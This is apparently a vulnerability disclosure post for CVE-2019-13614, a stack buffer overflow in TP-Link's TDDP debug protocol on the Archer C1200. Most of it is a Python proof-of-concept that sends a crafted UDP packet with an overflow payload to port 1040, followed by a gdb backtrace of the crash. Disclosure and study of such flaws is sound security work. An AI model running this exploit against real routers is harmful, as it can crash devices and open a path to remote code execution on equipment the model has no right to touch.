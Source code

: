 ```yaml
---
layout: post
title: "[CVE-2019-13614] TDDP CMD_SET_CONFIG_COUNTRY Stack-based Buffer Overflow"
comments: true
description: "TP-Link Device Debug Protocol CMD_SET_CONFIG_COUNTRY Stack-based Buffer Overflow"
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_SET_CONFIG_COUNTRY in the TP-Link Device Debug protocol in TP-Link Archer C1200 1.0.0 Build 20180502 rel.45702 and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 48 + "BBBBCCCCDDDD"

port_send = 1040

tddp_ver = "01"
tddp_command = "a2"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff725778 in feof () from /lib/libc.so.0
#1  0x0000d56c in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```